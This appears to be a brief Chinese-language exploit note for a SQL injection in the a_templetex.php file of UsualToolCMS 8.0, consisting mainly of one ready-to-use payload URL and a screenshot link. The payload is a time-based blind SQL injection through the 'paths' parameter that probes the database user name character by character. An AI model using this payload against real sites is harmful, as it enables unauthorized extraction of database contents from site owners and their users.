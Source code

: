 
# UsualToolCMS-8.0 a_templetex.php sql注入漏洞

payload:

```
a_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring(user(),1,1))>0,sleep(5),1)--+
```

![image.png](resource/UsualToolCMS-8.0%20a_templetex.php%20sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/1600850751098-fc38e94b-e10c-4844-bf78-9162a9fccd47.png)

